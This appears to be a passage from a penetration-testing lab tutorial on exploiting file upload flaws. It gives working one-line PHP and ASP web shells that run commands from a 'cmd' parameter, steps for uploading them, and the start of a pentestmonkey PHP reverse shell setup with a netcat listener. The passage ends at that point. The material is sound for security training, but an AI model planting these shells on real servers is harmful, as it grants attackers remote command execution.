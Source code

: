 Web shells provide features like directory traversal and file transfer. Examples include:

- **PHPBash**: A terminal-like semi-interactive web shell for PHP.
- **SecLists**: Contains various web shells for different frameworks and languages, found in the `/opt/useful/seclists/Web-Shells` directory on PwnBox.

### Uploading a Web Shell
1. Download a web shell for the language of the web application (e.g., `phpbash.php` for PHP).
2. Upload the web shell through the vulnerable upload feature.
3. Visit the uploaded file link (e.g., `http://SERVER_IP:PORT/uploads/phpbash.php`).

The web shell provides a terminal-like interface, simplifying enumeration and exploitation of the back-end server. Test other web shells from SecLists to find the most suitable one for your needs.

### Writing a Custom Web Shell
In cases where online tools are unavailable, writing a simple custom web shell is useful. For PHP:

```php
<?php system($_REQUEST['cmd']); ?>
```

- Save this script as `shell.php`.
- Upload it to the web application.
- Execute system commands using the `?cmd=` GET parameter (e.g., `http://SERVER_IP:PORT/uploads/shell.php?cmd=id`).

**Tip:** Use source-view mode (`CTRL+U`) in the browser to display command output in a terminal-like format without HTML rendering.

Other languages/frameworks can use similar techniques with their respective functions. For example, .NET web applications:

```asp
<% eval request('cmd') %>
```

Note: Web shells may fail due to security measures like firewalls or disabled server functions.

---

## Reverse Shells

Reverse shells offer an interactive method for controlling compromised servers. For PHP:

### Using Pre-Existing Scripts
1. Download a reverse shell script (e.g., the pentestmonkey PHP reverse shell from SecLists).
2. Edit the script to set your IP and listening port:

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

3. Start a netcat listener on your machine:

```bash
nc -lvnp OUR_PORT
```
